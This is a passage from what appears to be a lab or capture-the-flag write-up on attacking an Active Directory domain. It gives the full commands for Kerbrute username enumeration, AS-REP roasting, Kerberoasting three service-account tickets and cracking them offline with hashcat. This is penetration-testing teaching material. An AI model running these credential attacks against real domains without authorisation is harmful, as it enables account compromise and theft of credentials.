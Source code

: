 
#### Using [Kerbrute](https://github.com/ropnop/kerbrute) to bruteforce Usernames: {#using-kerbrute-to-bruteforce-usernames}

As kerberos is running we can use Kerbrute for bruteforcing usernames/emails.

```shell
kerbrute userenum -d $domain --dc $box ~/Wordlists/statistically-likely-usernames/jsmith.txt -o kerbruteUsers.txt
```

No hits.

{{< figure src="/ox-hugo/2025-06-03-194737_.png" >}}


#### Using netexec for ASReproasting: {#using-netexec-for-asreproasting}

Let's try and `asreproast` with netexec.

```shell
netexec ldap $box -u $user -p $pass --asreproast asrep.txt

  #+begin_src shell
# This one will just work, without having to pass anything else.
impacket-GetNPUsers $domain/ -request
```

No hits
![](/ox-hugo/2025-06-03-194833_.png)


#### Kerberoasting Using Our Creds To Get 3 Tickets: {#kerberoasting-using-our-creds-to-get-3-tickets}

As we have creds we can kerberoast.

```shell
netexec ldap $box -u $user -p $pass --kerberoast kerb.txt
```

As we can see we have gotten 3 valid tickets all service accounts.
![](/ox-hugo/2025-06-03-195207_.png)

Let's attempt to crack the tickets.

```shell
#Cracking
hashcat -m 13100 kerb.txt ~/Wordlists/rockyou.txt
```

Unfortunatley we were unable to crack these tickets. We still have to perform our credentialed enumeration though so plenty to do!
![](/ox-hugo/2025-06-03-195543_.png)


### Enumerating Users with Impacket-lookupsid: {#enumerating-users-with-impacket-lookupsid}
